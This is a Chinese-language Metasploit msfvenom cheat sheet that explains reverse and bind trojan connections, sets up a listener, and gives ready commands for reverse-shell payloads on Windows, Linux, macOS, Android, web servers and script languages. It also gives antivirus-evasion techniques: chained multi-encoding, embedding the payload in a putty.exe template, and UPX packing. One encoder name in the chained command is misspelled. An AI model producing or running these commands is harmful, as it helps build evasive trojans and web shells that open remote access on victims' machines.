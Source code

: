 ```yaml
---
description: msf 的基础使用
---
```


# 🚲 msfvenom

## 1. 木马连接方式

1. 正向连接： 攻击主机主动连接目标机器
2. 反向连接： 目标机器连接攻击主机

## 2. msfvenom 常用选项

```bash
-l  列出所有可用的payload,编码器,空指令……
-p  指定要使用的msf的payload,也可以使用自定义payload,几乎是支持全平台的
-f  指定payload输出的文件类型,--help-formats,可查看支持的所有输出格式
-e  指定要使用那种编码器
-i  指定编码的次数,如果使用编码器
-b  指定坏字符,比如空字符截断问题,等等……
-x  使用一个自定义可执行程序模板,并将payload嵌入其中
-k  当模板被执行时,payload自动分离并注入到新的进程中,一般和-x选项一并使用
-o  指定创建好的payload的存放位置
```

## 3. 如何使用 msf 创建监听器

```bash
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
run
```

## 4. 创建 Msf payload

直接使用msfvenom生成的反弹shell程序一般都会被杀毒软件无情差杀掉\
避免被查杀的最普遍方法是编码，简单来说就是改变可执行文件中的代码形状，从而让只识别静态特征码的杀毒软件无法识别，且当木马运行之后，木马会将原始程序解码到内存中，如此木马原来的功能自然也不会受到影响

可以使用`x86/shikata_ga_nai` 动态编码器进行混淆，简单单次混淆一般都能被杀毒软件先解码再查杀识别出来，那么尝试使用 **多重编码器多次混淆**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f raw | msfvenom -e x86/alpha_upper -a x86 --platform windows -i5 -f raw | msfvenom -e x86/shikkata_ga_nai -a x86 --platform windows -i 10 -f raw | msfvenom -e x86/countdown -a x86 --platform windows -i 10 -b '\x00\x0a\xff' -f exe -o shell.exe
```

如果进行多次编码的马儿还是被查杀，可以尝试 **更换可执行文件模板**，重新生成木马

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -x putty.exe -k -i 5 -f exe -o shell.exe
```

发现更换可执行文件模板的马儿依然被查杀，编码和更换模板都行不通，可以试试 **加壳**。软件加壳基本原理就是对可执行文件进行加密压缩，执行之后将代码解压为原始程序，这里分别使用5、9级别upx加壳等级对木马进行加壳

<pre class="language-bash"><code class="lang-bash"><strong>upx -5 shell.exe -o upx5_shell.exe
</strong>upx -9 shell.exe -o upx9_shell.exe</code></pre>

将木马藏在可执行文件里面，文件的md5值会发生改变，杀毒软件将文件与官方原版文件进行对比即可判断是否异常，这里 **换一个不常见的可执行文件模板（可以是自己写的）**\
还有可以不直接生成可执行文件，而是 **生成c代码**

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 15 -b '\x00\' -f c -o shell.c
```

### 1. Windows 平台

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o x86_shell.exe
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1
```

### 2. Linux 平台

```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf
```

### 3. MAC  平台

```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho -o x86_shell.macho
```

### 4. 安卓平台

```bash
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f apk -o x86_shell.apk
```

### 5. WEB Payloads

```bash
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

### 6. 脚本 Payloads

```bash
# Python
msfvenom -p python/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o rshell.py

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw -o shell.pl

# Node.js
msfvenom -p nodejs/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.js

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw -o shell.sh

# ruby
msfvenom -p ruby/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o x86_shell.rb

# lua
msfvenom -p cmd/unix/reverse_lua LHOST=<ip> LPORT=<port> -f raw -o x86_shell.lua
```

### &#x20;
